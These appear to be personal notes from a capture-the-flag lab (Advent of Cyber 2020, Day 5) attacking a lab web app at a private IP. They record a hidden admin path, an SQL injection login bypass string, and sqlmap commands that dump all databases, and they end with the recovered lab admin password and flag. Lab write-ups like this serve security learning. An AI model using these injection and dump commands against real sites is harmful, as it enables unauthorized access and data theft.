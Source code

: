 # Advent of cyber 2020

# [Day 5] Web Exploitation Someone stole Santa's gift list!

# My IP : 10.17.6.109

# Target IP : 10.10.143.189


# Port 8000
website
10.10.143.189:8000

hidden directory ------> /santapanel

this will work
	'OR 1=1 --


======SQLMAP stuff======

sqlmap -u "http://10.10.143.189:8000/santapanel?search=1" --dbs

sqlmap -r req --dbms sqlite --dump-all --tamper=space2comment


==========

```bash

sqlmap -r req --dbms sqlite --dump-all --tamper=space2comment | tee sql.log 
```

admin password is EhCNSWzzFP6sc7gB
flag is thmfox{All_I_Want_for_Christmas_Is_You} 
